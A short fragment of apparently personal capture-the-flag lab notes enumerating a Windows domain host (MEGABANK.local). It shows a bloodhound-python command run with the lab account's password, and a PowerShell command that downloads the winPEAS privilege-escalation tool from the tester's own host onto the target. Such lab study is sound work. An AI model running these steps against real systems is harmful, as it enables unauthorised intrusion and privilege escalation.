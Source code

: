 
It's time for Bloodhound and Winpeas

Bloodhound
```
bloodhound-python -d MEGABANK.local -u mhope -p '4n0therD4y@n0th3r$' -ns 10.10.10.172 -c all
```

![[Pasted image 20240504002952.png]]

Started the Neo4j console and Run bloodhound


```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240504003704.png]]

Systeminfo
![[Pasted image 20240504013037.png]]

```
USERDOMAIN: MEGABANK
USERDNSDOMAIN: MEGABANK.LOCAL
```

![[Pasted image 20240504014452.png]]

